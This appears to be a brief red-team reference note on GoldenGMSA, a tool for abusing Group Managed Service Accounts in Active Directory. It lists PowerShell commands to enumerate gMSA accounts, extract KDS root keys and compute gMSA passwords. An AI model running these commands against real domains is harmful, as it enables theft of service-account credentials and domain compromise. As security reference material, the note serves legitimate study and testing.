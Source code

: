 ```yaml
---
tags:
  - tool
---
```

# GoldenGMSA

[GoldenGMSA](https://github.com/Semperis/GoldenGMSA) is a C# tool for abusing Group Managed Service Accounts (gMSA) in Active Directory.

## Capabilities

```powershell
# Enumerate gMSA accounts in a domain
.\GoldenGMSA.exe gmsainfo --domain $DOMAIN

# Retrieve gMSA password (online computation)
.\GoldenGMSA.exe compute --sid "$SID" --forest $FQDN --domain $DOMAIN

# Retrieve the KDS key associated with the gMSA (specifying our compromised forest, offline computation)
.\GoldenGMSA.exe kdsinfo --forest $FQDN

# Computer gMSA password manually (pwdid == msds-ManagedPasswordID, offline computation)
.\GoldenGMSA.exe compute --sid "$SID" --kdskey $KDSKEY --pwdid $PWDID
```

